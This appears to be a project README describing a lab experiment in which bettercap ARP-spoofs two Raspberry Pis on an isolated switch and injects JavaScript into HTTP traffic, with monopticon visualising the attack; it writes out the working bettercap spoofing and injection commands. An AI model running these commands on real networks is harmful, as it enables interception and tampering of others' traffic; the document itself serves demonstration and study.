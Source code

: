 Introduction
------------

The goal of this expirement is to demonstrate how `bettercap` can inject
javascript into http streams when performing a Man-in-The-Middle and how its
possibile to visually confirm the attack is working with `monopticon`.

The video posted to [Youtube](https://youtube.com/TODO) describes the expirement well.
The injected javascript that changes the page is available [here](https://github.com/nskelsey/monopticon/master/src/expirements/arp-spoof/script.js).

Expiremental Setup
------------------
Inside of an isolated unmanaged network, an attacker performing an ARP spoofing
attack, man in the middles http requests to a website running on a device in the
local network.

- 1 Netgear Max GS724 24 port switch
- 2 Raspberry Pi 3 running Raspbian-Stretch v4.14
- 1 Lenovo T480 running Monopticon v0.2.0 and Bettercap v2.22
- 3 RJ45 0.5m cables

### Network Design

```
[ pi C ] [ pi B ] [ lenovo ]
   \        |         /
    \       |        /
     \      |       /
      \     |      /
    [ netgear switch ]
```


### Normal ARP Mappings
The addresses are shown below in the diagram if the network was properly configured.

```
10.0.0.1 00:50:b6:b7:2b:eb # Attacker
10.0.0.2 b8:27:eb:71:b2:3e # Bruno
10.0.0.3 b8:27:eb:71:0f:5d # Cocco
```

### Man in the Middle Machine

```zsh
> ip address add dev enp0s31f6 10.0.0.1/24

> sudo su
> /home/synnick/go/bin/bettercap -iface enp0s31f6 -eval 'net.recon on; http.proxy on; arp.spoof on; ticker on;'
```


### Manipulated ARP Tables

ARP Table of Bruno
```
10.0.0.3 00:50:b6:b7:2b:eb # Attacker
```

ARP Table of Cocco
```
10.0.0.2 00:50:b6:b7:2b:eb # Attacker
```


### Attack Results

As shown the once the Lenovo machine starts broadcasting IP addresses

![what it looks like](https://raw.githubusercontent.com/nskelsey/monopticon/master/contrib/screens/local-mitm.gif)

Appendix
--------
## Initial Setup

### Cocco
```zsh
> sudo apt install vim tmux nginx
# changed hostname
# enabled ssh
> enable sshd w/ password
> sudo vim /etc/dhcpdc.conf
# static 10.0.0.3
> wget -r https://soapbox.nskelsey.com --convert-links
> systemctl enable nginx
> cp -fr soapbox.nskelsey.com/* /var/www/html/
> arp -s 10.0.0.2 00:50:b6:b7:2b:eb
```

### Bruno
```zsh
> sudo apt install vim tmux
> enable sshd w/ password
# idem w/o nginx
> arp -s 10.0.0.3 00:50:b6:b7:2b:eb
```

### Attacker

During the attack execute:

```zsh
> cd /home/synnick/projects/monopticon/build
> ping -c5 10.0.0.2 &; ping -c5 10.0.0.3 &; ./bin/monopticon
> /home/synnick/go/bin/bettercap -eval 'net.recon on; set http.proxy.injectjs "/home/synnick/projects/monopticon/src/expirements/arp-spoof/script.js"; http.proxy on; arp.spoof on; ticker on;'
```
